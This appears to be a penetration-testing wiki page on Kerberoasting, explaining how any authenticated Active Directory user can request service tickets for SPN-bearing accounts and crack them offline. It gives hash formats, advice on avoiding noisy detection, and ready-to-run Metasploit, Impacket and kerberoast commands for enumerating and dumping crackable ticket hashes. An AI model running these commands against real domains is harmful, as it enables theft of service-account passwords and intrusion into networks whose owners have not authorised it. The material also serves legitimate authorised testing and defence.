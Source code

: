 # Kerberoast

## Kerberoast

Kerberoasting focuses on the acquisition of TGS tickets, specifically those related to services operating under user accounts in Active Directory (AD), excluding computer accounts. The encryption of these tickets utilizes keys that originate from user passwords, allowing for offline credential cracking. The use of a user account as a service is indicated by a non-empty ServicePrincipalName (SPN) property.

Any authenticated domain user can request TGS tickets, so no special privileges are needed.

### Key Points

- Targets TGS tickets for services that run under user accounts (i.e., accounts with SPN set; not computer accounts).
- Tickets are encrypted with a key derived from the service account’s password and can be cracked offline.
- No elevated privileges required; any authenticated account can request TGS tickets.

> [!WARNING]
> Most public tools prefer requesting RC4-HMAC (etype 23) service tickets because they’re faster to crack than AES. RC4 TGS hashes start with `$krb5tgs$23$*`, AES128 with `$krb5tgs$17$*`, and AES256 with `$krb5tgs$18$*`. However, many environments are moving to AES-only. Do not assume only RC4 is relevant.
> Also, avoid “spray-and-pray” roasting. Rubeus’ default kerberoast can query and request tickets for all SPNs and is noisy. Enumerate and target interesting principals first.

### Attack

#### Linux

```bash
# Metasploit Framework
msf> use auxiliary/gather/get_user_spns

# Impacket — request and save roastable hashes (prompts for password)
GetUserSPNs.py -request -dc-ip <DC_IP> <DOMAIN>/<USER> -outputfile hashes.kerberoast
# With NT hash
GetUserSPNs.py -request -dc-ip <DC_IP> -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USER> -outputfile hashes.kerberoast
# Target a specific user’s SPNs only (reduce noise)
GetUserSPNs.py -request-user <samAccountName> -dc-ip <DC_IP> <DOMAIN>/<USER>

# kerberoast by @skelsec (enumerate and roast)
# 1) Enumerate kerberoastable users via LDAP
kerberoast ldap spn 'ldap+ntlm-password://<DOMAIN>\\<USER>:<PASS>@<DC_IP>' -o kerberoastable
# 2) Request TGS for selected SPNs and dump
kerberoast spnroast 'kerberos+password://<DOMAIN>\\<USER>:<PASS>@<DC_IP>' -t kerberoastable_spn_users.txt -o kerberoast.hashes
```
